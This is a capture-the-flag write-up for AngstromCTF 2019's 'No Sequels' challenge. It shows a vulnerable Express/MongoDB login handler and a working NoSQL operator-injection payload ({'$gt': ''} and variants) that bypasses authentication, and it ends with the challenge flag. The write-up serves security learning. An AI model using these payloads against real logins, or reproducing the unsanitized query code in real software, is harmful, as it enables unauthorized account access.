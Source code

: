 > The prequels sucked, and the sequels aren't much better, but at least we always have the original trilogy.

The description pointed to a webpage containing a login form and the snippet of code powering it:

![No Sequels 1](/assets/img/AngstromCTF_2019/no_sequels_1.jpg)

```js
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));
...
router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;
    var user = req.body.username;
    var pass = req.body.password;
    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }
    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }
        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

The code showed that neither the user input was sanitized, nor was the encoding of the request forced _(Express tries to parse that itself unless differently instructed)_. The following JSON request could be used to trick the webserver into injecting conditionals inside the MongoDB query:

```json
{
  "username": {"$gt": ""},
  "password": {"$gt": ""}
}
```

_Instead of `{"gt": ""}` many other variations could be used: `{"$exists": true}`, `{"$not": {"$size": 0}}`, `{"$ne": null}`..._

[Insomnia](https://github.com/getinsomnia/insomnia) is a handy tool for working with HTTP requests; remember to extract the session JWT from the browser's `token` cookie and apply it, though.

![Insomnia](/assets/img/AngstromCTF_2019/insomnia.png)

🏁 _actf{no_sql_doesn't_mean_no_vuln}_{: .spoiler}

---
